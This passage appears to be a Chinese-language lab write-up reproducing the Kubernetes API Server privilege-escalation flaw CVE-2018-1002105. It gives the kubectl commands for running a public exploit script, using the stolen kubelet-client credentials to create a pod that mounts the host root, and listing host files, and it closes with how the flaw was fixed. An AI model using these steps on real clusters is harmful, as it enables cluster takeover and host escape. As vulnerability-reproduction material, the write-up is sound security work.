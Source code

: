 ```yaml
--token-auth-file=/etc/kubernetes/pki/test-role-token.csv
```

等待 API Server 重启，此时场景就搭建完毕了，下面测试下，场景是否正常

```yaml
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify exec -it test -n test /bin/hostname
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify get pods -n kube-system
```

结果显示能够对指定 Pod 执行命令，但是不能执行其他越权操作，符合预期场景。

<img width="1100" src="/img/1649994551.png">

### 漏洞利用

使用脚本获得高权限凭证文件，脚本地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/exploit.py

```yaml
python3 exploit.py --target 172.16.214.18 --port 6443 --bearer-token password --namespace test --pod test
```

<img width="1200" src="/img/1649994563.png">

接着，使用拿到的高权限凭证在集群中新建一个挂载了宿主机根目录的 Pod，yaml 文件地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/attacker.yaml

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key apply -f attacker.yaml
```

Pod 被成功创建后，执行 ls /host-escape-door 命令可成功看到宿主机下的文件。

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key exec attacker ls /host-escape-door
```

<img width="1000" src="/img/1649994572.png">

至此，完成了 CVE-2018-1002015 漏洞的复现。

## 0x03 漏洞修复

该漏洞的修复也比较简单，直接在 API Server 中增加对后端服务器返回值的判断即可。

在新版 k8s 中的 tryUpgrade 函数这里，会判断状态码是否等于 http.StatusSwitchingProtocols，即 101，如果状态码不等于 101，则关闭连接。

<img width="1200" src="/img/1649994587.png">
